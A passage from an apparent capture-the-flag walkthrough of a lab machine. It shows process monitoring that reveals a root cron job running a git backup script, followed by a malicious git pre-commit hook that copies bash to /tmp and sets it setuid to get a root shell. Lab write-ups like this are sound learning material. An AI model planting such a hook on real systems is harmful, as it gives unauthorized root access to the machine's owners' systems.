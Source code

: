 ```
-bash-4.4$ /tmp/pspy
[...]
2022/09/17 12:38:01 CMD: UID=0    PID=1060   | /bin/bash /usr/local/bin/git-sync 
2022/09/17 12:38:01 CMD: UID=0    PID=1061   | git status --porcelain 
2022/09/17 12:38:01 CMD: UID=0    PID=1063   | git add . 
2022/09/17 12:38:01 CMD: UID=0    PID=1067   | /bin/bash /usr/local/bin/git-sync 
2022/09/17 12:38:01 CMD: UID=0    PID=1068   | git commit -m Backup for 2022-09-17 
2022/09/17 12:38:01 CMD: UID=0    PID=1073   | /bin/bash /usr/local/bin/git-sync 
2022/09/17 12:38:01 CMD: UID=0    PID=1075   | /usr/lib/git-core/git-remote-http origin http://opensource.htb:3000/dev01/home-backup.git 
```

Hmm... Let's take a look at what the **`/usr/local/bin/git-sync`** does:

```
-bash-4.4$ file /usr/local/bin/git-sync
/usr/local/bin/git-sync: Bourne-Again shell script, ASCII text executable
```

It's a **Bash script** file.

**/usr/local/bin/git-sync:**
```bash
#!/bin/bash

cd /home/dev01/

if ! git status --porcelain; then
    echo "No changes"
else
    day=$(date +'%Y-%m-%d')
    echo "Changes detected, pushing.."
    git add .
    git commit -m "Backup for ${day}"
    git push origin main
fi
```

If you look closer, **the `git` command is NOT using the absolute path (`/usr/bin/git`), we can leverage this to do relative path exploit!**

Also, **the script will `cd` into `/home/dev01/`.** According to a [blog](https://www.mehmetince.net/one-git-command-may-cause-you-hacked-cve-2014-9390-exploitation-for-shell/), **we can use git hooks to gain root privilege!**

**To do so, I'll:**

- Create a malicious pre-commit hook in `/home/dev01/.git/hooks/`, so it will be ran before `git commit`:

```
-bash-4.4$ pwd
/home/dev01/.git/hooks

-bash-4.4$ cat << EOF > pre-commit
> #!/bin/bash
> cp /bin/bash /tmp/root_bash
> chmod +s /tmp/root_bash
> EOF

-bash-4.4$ chmod +x pre-commit
```
